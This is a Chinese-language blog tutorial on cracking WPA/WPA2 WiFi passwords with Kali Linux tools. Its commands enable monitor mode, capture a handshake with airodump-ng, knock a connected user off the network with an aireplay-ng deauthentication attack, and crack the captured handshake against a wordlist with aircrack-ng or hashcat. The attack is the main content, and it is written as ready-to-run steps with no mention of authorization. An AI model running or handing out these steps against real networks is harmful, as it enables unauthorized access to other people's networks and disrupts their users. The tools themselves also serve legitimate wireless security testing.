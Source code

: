 title: Aircrack-ng 爆破 wifi 密码
author: l1n6yun
tags: 
 - Aircrack-ng
 - 网络接口管理
 - 抓包工具
 - Kali Linux
categories: []
date: 2020-06-04 00:00:00
---
Aircrack-ng是一个基于WiFi无线网络分析有关的安全软件，主要功能有网络侦测、数据包嗅探、WEP和WPA/WPA2-PSK破解等。
因为安全性的原因。现在，周围很少有用WEP算法来加密的WiFi密码，不过基本命令都很相似。

WiFi网络构成

1. WiFi是一个建立于IEEE 802.11标准的无线局域网络（WLAN）设备。
2. WiFi工作原理AP(Access Point 例如：无线路由器)每100ms将SSID（Service Set Identifier）经由beacons（信号台）封包广播一次。

#### 查看网卡信息
```shell
iwconfig
```

![upload successful](/images/pasted-57.png)

#### 启动监听模式

```shell
airmon-ng start wlan0
```

![upload successful](/images/pasted-58.png)

#### 准备抓取握手包

```shell
airodump-ng -c 6 -bssid 64:6E:97:DA:39:5C -w thomas wlan0
```

- -c：信道号
- --bssid：apMAC
- -w：保存的文件名

![upload successful](/images/pasted-59.png)

扫描到的WiFi热点信息

- BSSID：WiFi路由器的MAC地址
- PWR：网卡报告信号水平，信号值越高说明离AP越近。（PWR=-1，网卡驱动不支持报告此项信息）
- Beacons：无线AP发出的通告编号
- #Data：被捕获到的数据分组的数量（一般数据量越大，抓取握手包更容易）
- #/s：过去10秒钟内每秒捕获数据分组的数量
- CH：信道号（从Beacon中获取）
- MB：无线AP所支持的最大速率
- ENC：加密算法体系
- CIPHER：加密算法
- AUTH：使用的认证协议
- ESSID：wifi名称

使已连接WiFi的用户A强制下线，之后A会向WiFi路由重新发送一个带密码的请求握手包

```shell
aireplay-ng -0 2 -a 64:6E:97:DA:39:5C -c C2:46:34:ED:48:4C wlan0
```

- -0：攻击数据包数量
- -a：WiFi MAC 地址
- -c：用户 MAC 地址

![upload successful](/images/pasted-60.png)

出现 `WAP handshake` 表示已经获取到了握手包，下面就可以实现破解了

![upload successful](/images/pasted-61.png)

#### 开始爆破

```shell
aircrack-ng -w pass.txt thomas-01.cap
```

- -w：字典文件路径

![upload successful](/images/pasted-62.png)

#### hashcat

关于密码破解，可以使用kali自带的hashcat使效率大大增加

```
aircrack-ng [抓取到的握手包文件名] -J [转换后的文件名]
hashcat -m 2500 .hccap password.txt
```
参数： -m 2500为破解的模式为WPA/PSK方式  hccap格式的文件是刚刚转化好的文件  字典文件 
 
注：最新版hashcat一般情况下不支持hccap格式，第一步需将握手包cap格式转换为hccapx